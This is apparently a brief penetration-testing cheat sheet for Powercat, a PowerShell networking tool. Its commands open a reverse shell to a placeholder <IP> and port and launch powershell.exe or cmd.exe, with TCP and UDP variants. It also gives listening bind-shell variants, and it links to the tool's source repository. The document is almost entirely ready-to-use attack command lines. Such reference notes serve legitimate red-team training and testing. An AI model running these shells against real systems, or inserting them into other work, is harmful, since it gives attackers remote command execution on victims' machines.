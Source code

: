 # Powercat

## 01 - Reverse shell

### 1.1 - TCP Method

```
PS C:\> powercat -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>
```

### 1.2 - UDP Method

```
PS C:\> powercat -u -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>
```

## 02 - Bind shell

### 2.1 - TCP Method

```
PS C:\> powercat -l -p <PORT> -e <powershell.exe | cmd.exe>
```

### 2.2 - UDP Method

```
PS C:\> powercat -u -l -p <PORT> -e <powershell.exe | cmd.exe>
```

---
## References

### Source Repository

- [besimorhino: Powercat](https://github.com/besimorhino/powercat)